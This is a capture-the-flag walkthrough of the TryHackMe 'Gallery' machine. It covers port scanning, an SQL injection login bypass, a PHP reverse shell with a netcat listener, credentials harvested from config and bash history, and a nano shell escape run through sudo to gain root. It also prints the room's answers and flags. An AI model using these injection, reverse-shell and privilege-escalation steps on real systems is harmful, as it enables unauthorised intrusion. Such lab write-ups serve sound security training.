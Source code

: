 # Gallery

* IP = 10.10.4.131

## Questions/Tasks:
1. How many ports are open?

* Nmap scan report:
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

```
**Ans-2**

2. What's the name of the CMS?

* Gobuster report:
```bash
2022/06/20 11:45:53 Starting gobuster
=====================================================
/gallery (Status: 301)
Progress: 26788 / 87666 (30.56%)
```
* Navigating to '/gallery' we're redirected to '/gallery/login.php'
* Firstly we try random creds like: _admin_ and _admin_ and get the following response when we inspect with dev tools:<br>
![Screenshot](./inspect.png)
* The login page is vulnerable to SQL injection(found by observation and testing around)
* Login to /gallery by:
```
' OR 1=1 #
```
in both username and password fields.
**Ans-Simple Image Gallery**

3. What's the hash password of the admin user?

* We navigate to this page(the my account page of the Admin):
![Screenshot](./1.png)
* Try to upload PHP reverse shell code attached with project
  Since the backend is probably made on PHP(hint: login page was login.php)
* Put a netcat listener:
```bash
nc -lnvp 7777
```
* And we get a reverse shell!
![Screenshot](./2.png)
* Stabilise the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* We're www-data with lower privileges
* mike is a user in home directory
### Start enumerating the server:
* The /var/www/html/gallery contents:
```bash
www-data@gallery:/var/www/html/gallery$ ls
404.html  build               database  index.php       report       user
albums    classes             dist      initialize.php  schedules
archives  config.php          home.php  login.php       system_info
assets    create_account.php  inc       plugins         uploads

```
* Contents of initialize.php:
```php

  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

    if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
    if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
    if(!defined('dev_data')) define('dev_data',$dev_data);
    if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
    if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
    if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
    if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");


```
* The password mentioned in clear text is of dev_oretnom which might be creds of MariaDB database admin
* We login with gallery_user and passw0rd321:
```bash
mysql -u gallery_user -p
```
* We login successfully!<br>
![Screenshot](./3.png)
* Henceforth we explore the database:
![Screenshot](./4.png)<br>
![Screenshot](./5.png)<br>
![Screenshot](./6.png)

**Ans-a228b12a08b6527e7978cbe5d914531c**

4. What's the user flag?

* In the /var directory we find backups directory which contains mike's home backup:
* In which we can find the sudo password for mike from .bash_history:
![Screenshot](./7.png)
![Screenshot](./8.png)
* The password:
```
b3stpassw0rdbr0xx
```
* Escalate with:
```bash
su mike
```

**Ans-THM{af05cd30bfed67849befd546ef}**

5. What's the root flag?

* To Escalate to root privileges we first check commands that can be run as root with:
```bash
$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```
* As we can see we can run the above program as root:
* Navigating to /opt and the file contents are:
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
* In the above 4 options we can run nano as root
* Hence we execute:
```bash
sudo /bin/bash /opt/rootkit.sh
```
* Take help from <a href="https://gtfobins.github.io/">gtfobins</a> to Escalate privileges through nano:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```
* ctrl+R for Read File and then ctrl+X to execute commands
![Screenshot](./9.png)
* Navigate to /root and check the root.txt file
**Ans**-
```
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
